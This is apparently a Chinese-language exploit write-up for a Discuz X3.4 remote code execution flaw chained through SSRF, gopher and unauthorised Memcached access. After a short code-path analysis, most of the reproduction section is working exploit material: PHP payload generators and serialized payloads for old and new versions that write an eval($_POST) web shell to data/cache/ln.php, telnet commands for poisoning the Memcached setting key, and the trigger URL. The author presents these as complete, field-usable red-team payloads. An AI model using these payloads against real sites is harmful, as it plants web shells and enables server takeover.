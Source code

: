 # Discuz x3.4 Memcached未授权访问导致的rce

### 一、漏洞简介

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

### 二、漏洞影响

<= x3.4

windows

php>5.3+php-curl<=7.54

DZ开放在80端口

### 三、复现过程

**漏洞分析**

Dz 整合 Memcache 配置成功后，默认情况下网站首页右下角会出现MemCache On的标志：

![](images/15889922349168.jpg)


漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：


```
forum.php?mod=ajax&inajax=yes&action=getthreadtypes
```


```
./source/module/forum/forum_ajax.php
```

![](images/15889922547429.png)



```
./template/default/common/footer_ajax.htm
```

![](images/15889922645614.png)



```
./source/function/function_core.php
```

![](images/15889922744118.png)



```
./source/function/function_core.php
```

![](images/15889922864942.png)


最后利用preg_replace函数/e参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

**漏洞复现**

1 老版本漏洞利用流程：

生成payload


```php
<?php
$payload['output']['preg']['search']['plugins']= "/.*/e";
$payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
$payload['rewritestatus']['plugins']= 1;
echoserialize($payload);
```


```php
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}
```

然后telnet链接memcached


```bash
telnet 1.1.1.1 11211
```


```bash
set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。
```

![](images/15889923263911.png)


最后访问`forum.php?mod=ajax&inajax=yes&action=getthreadtypes`

shell生成`**/data/cache/ln.php**`

2 新版本漏洞利用流程

生成payload有点变化(ps:只是少了一个e)


```php
<?php
$payload['output']['preg']['search']['plugins']= "/.*/";
$payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
$payload['rewritestatus']['plugins']= 1;
echoserialize($payload);
```


```php
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}
```

![](images/15889923564546.png)


访问:`forum.php?mod=ajax&inajax=yes&action=getthreadtypes`

![](images/15889923669203.png)


最后一定要恢复缓存

Delete Vtfbsm_setting

成功写入文件

![](images/15889923741126.png)


参考链接

https://xz.aliyun.com/t/2018